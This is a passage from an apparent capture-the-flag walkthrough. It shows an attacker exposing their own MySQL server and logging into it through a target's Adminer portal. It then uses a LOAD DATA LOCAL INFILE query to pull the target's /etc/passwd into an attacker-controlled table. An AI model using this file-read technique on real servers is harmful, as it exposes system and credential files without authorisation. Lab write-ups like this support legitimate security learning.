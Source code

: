 Next I had to set the binding for the server to the address `0.0.0.0` so that the external service could connect to it by my IP.  The default is `127.0.0.1` which is localhost only.

```text
zweilos@kali:/etc/mysql/conf.d$ service mysql stop
zweilos@kali:/etc/mysql/conf.d$ service mysql start
```

After changing the server `bind-address` setting to `0.0.0.0` I had to restart the `mysql` service for it to take effect. After that I was able to login to my database in the Adminer portal.

![](../../.gitbook/assets/6-adminer-login%20%281%29.png)

### Finding user creds

This bug bounty write-up detailed what I needed to do next. Essentially, I logged into the remote server's database management portal, but it was my own local database that I logged into.  After that, I abused a feature of MySQL that allows for local files to be imported into the database.  This is a type of local file inclusion \(LFI\) vulnerability.  

* [https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)

```text
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE admirer.test
FIELDS TERMINATED BY "\n"
```
